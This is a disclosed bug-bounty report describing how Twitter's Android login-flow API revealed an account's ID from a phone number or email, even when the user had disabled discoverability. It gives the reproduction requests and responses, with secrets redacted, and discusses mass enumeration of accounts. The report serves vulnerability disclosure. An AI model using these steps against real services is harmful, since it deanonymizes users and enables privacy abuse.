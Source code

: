 # Discoverability by phone number/email restriction bypass

## Report Details
- **Report ID**: 1439026
- **URL**: https://hackerone.com/reports/1439026
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-01-01T15:36:54.795Z
- **Disclosed**: 2022-02-11T17:00:31.711Z

## Reporter
- **Username**: zhirinovskiy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** By using this vulnerability an attacker can find a twitter account by it's phone number/email even if the user has prohibited this in the privacy options.

**Description:** The vulnerability allows any party  without any authentication to obtain a **twitter ID**(which is almost equal to getting the username of an account) of **any** user by submitting a phone number/email even though the user has **prohibitted this action in the privacy settings**. The bug exists due to the proccess of authorization used in the Android Client of Twitter, specifically in the procces of checking the duplication of a Twitter account.

## Steps To Reproduce:

In this example I will show you how to get a Twitter ID of a user with an email "████████" (this an account created by me to demonstrate this bug)
  0.Disable discoverability in your Twitter account settings 
  1. At first we create a LoginFlow by sending a POST request to 
https://api.twitter.com/1.1/onboarding/task.json?flow_name=login

Headers (stay the same for all the requests):
>User-Agent: ████ (████)
>Accept-Encoding: gzip, deflate
>Authorization: Bearer ███████
>X-Guest-Token: █████ __#This value changes dynamically and must be generated every once in a while__
>Accept: application/json
>X-Twitter-Client: TwitterAndroid
>System-User-Agent: ██████
>Content-Encoding: application/json
>Content-Type: application/json
>Accept-Language: en-US

Body:
>{"flow_token":null,"input_flow_data":{"country_code":null,"flow_context":{"start_location":{"location":"deeplink"}},"requested_variant":null,"target_user_id":0}}

Response:
>{"flow_token":"**██████**","status":"success","subtasks":[{"subtask_id":"LoginEnterUserIdentifier","enter_text":{"primary_text":{"text":"To get started, first enter your phone, email, or @username","entities":[]},"hint_text":"Phone, email, or username","multiline":false,"auto_capitalization_type":"none","auto_correction_enabled":false,"os_content_type":"username","keyboard_type":"text","next_link":{"link_type":"task","link_id":"next_link","label":"Next"},"skip_link":{"link_type":"subtask","link_id":"forget_password","label":"Forgot password?","subtask_id":"RedirectToPasswordReset"}},"subtask_back_navigation":"cancel_flow"},{"subtask_id":"RedirectToPasswordReset","open_link":{"link":{"link_type":"deep_link_and_abort","link_id":"password_reset_deep_link","url":"twitter://onboarding/task?flow_name=password_reset&input_flow_data=%7B%22requested_variant%22%3A%███%22%7D"}}}]}

As you can see we have aquired the flow token value which is used in the next request.

2.  Send a POST request to https://api.twitter.com/1.1/onboarding/task.json with the same headers and a flow token aquired in the previous response

Body:
>{"flow_token":"██████","subtask_inputs":[{"enter_text": {"suggestion_id":null, "text": "**█████████**", "link": "next_link"},
                           "subtask_id": "LoginEnterUserIdentifier"}]}

Response:
>{"flow_token":"████","status":"success","subtasks":[{"subtask_id":"AccountDuplicationCheck","check_logged_in_account":{"true_link":{"link_type":"task","link_id":"AccountDuplicationCheck_true"},"false_link":{"link_type":"task","link_id":"AccountDuplicationCheck_false"},"user_id":"**███**"}}]}
As you can see we have aquired the user ID which can then be used  to get the **full info** about the twitter account (there are many ways to do this), even though I have **disabled discoverability** in my user settings! 

## Impact: 
This is a serious threat, as people can not only find users who have restricted the ability to be found by email/phone number, but any attacker with a basic knowledge of scripting/coding can enumerate a big chunk of the Twitter user base unavaliable to enumeration prior (**create a database with phone/email to username connections**). Such bases can be sold to malicious parties for advertising purposes, or for the purposes of tageting celebrities in different malicious activities
Also a cool feature that I discoverd is that you can even find the id's of suspended Twitter accounts using this method.

## Supporting Material/References:

  * ██████ A simple console Python script that demonstrates this vulnerabilty (requires the requests library to run)

## Impact

This is a serious threat, as people can not only find users who have disbaled discoverability by email/phone number, but any attacker with a basic knowledge of scripting/coding can enumerate a big chunk of the Twitter user base unavaliable to enumeration prior (create a database with phone/email to username connections). Such bases can be sold to malicious parties for advertising purposes, or for the purposes of tageting celebrities in different malicious activities. 
**Short: this can lead to a loss of privacy for many users.**

## Attachments
No attachments
